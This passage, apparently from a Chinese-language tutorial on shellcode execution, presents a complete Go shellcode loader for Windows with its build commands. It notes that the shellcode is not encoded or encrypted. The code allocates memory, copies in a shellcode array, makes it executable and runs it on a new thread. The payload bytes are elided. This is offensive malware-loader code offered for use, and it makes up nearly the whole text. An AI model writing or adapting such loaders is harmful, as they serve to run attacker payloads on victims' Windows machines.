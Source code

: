 这是一种最基础的执行方式，Shellcode 没有编码、加密

```bash
cat loader1.go 
package main

import (
        "unsafe"
        "golang.org/x/sys/windows"
)

var (
        kernel32      = windows.NewLazySystemDLL("kernel32.dll")
        rtlCopyMemory = kernel32.NewProc("RtlCopyMemory")
        createThread  = kernel32.NewProc("CreateThread")
)

func main() {
        shellcode := []byte{0xfc, ...[snip]..., 0x00}
        shellcodeExec, _ := windows.VirtualAlloc(
                uintptr(0),
                uintptr(len(shellcode)),
                windows.MEM_COMMIT|windows.MEM_RESERVE,
                windows.PAGE_READWRITE)

        rtlCopyMemory.Call(
                shellcodeExec,
                (uintptr)(unsafe.Pointer(&shellcode[0])),
                uintptr(len(shellcode)))

        var oldProtect uint32
        windows.VirtualProtect(
                shellcodeExec,
                uintptr(len(shellcode)),
                windows.PAGE_EXECUTE_READ,
                &oldProtect)

        hThread, _, _ := createThread.Call(
                0,
                0,
                shellcodeExec,
                uintptr(0),
                0,
                0)

        windows.WaitForSingleObject(
                windows.Handle(hThread),
                windows.INFINITE)

}

go mod init loader1

go mod tidy        

CGO_ENABLED=0 GOOS=windows GOARCH=amd64 go build
```
